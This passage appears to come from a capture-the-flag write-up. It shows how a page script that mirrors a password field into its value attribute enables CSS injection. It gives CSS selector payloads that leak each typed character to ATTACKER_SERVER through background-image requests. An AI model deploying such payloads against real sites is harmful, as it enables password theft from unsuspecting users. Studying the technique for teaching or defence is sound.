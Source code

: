 {% code overflow="wrap" %}
```javascript
const inp = document.getElementById("password");
inp.addEventListener("keyup", (e) => {
    inp.setAttribute("value", inp.value);
});
```
{% endcode %}

The fact they only do this for the password, not the username, made me suspicious 🔎 I updated the CSS in the devtools style editor.

{% code overflow="wrap" %}
```css
input[name="password"][value^="a"] {
    background-image: url(https://ATTACKER_SERVER/a);
}
```
{% endcode %}

When I typed "a" into the password field, I saw a request to the `/a` endpoint on my server.

![](images/6.PNG)

So, we can host the following in our CSS file. It will check if the first character of the password field matches any character in the alphabet (or digits).

{% code overflow="wrap" %}
```css
input[name="password"][value^="a"] {
    background-image: url("https://ATTACKER_SERVER/a");
}
input[name="password"][value^="b"] {
    background-image: url("https://ATTACKER_SERVER/b");
}
input[name="password"][value^="c"] {
    background-image: url("https://ATTACKER_SERVER/c");
}
input[name="password"][value^="d"] {
    background-image: url("https://ATTACKER_SERVER/d");
}
input[name="password"][value^="e"] {
    background-image: url("https://ATTACKER_SERVER/e");
}
input[name="password"][value^="f"] {
    background-image: url("https://ATTACKER_SERVER/f");
}
input[name="password"][value^="g"] {
    background-image: url("https://ATTACKER_SERVER/g");
}
input[name="password"][value^="h"] {
    background-image: url("https://ATTACKER_SERVER/h");
}
input[name="password"][value^="i"] {
    background-image: url("https://ATTACKER_SERVER/i");
}
```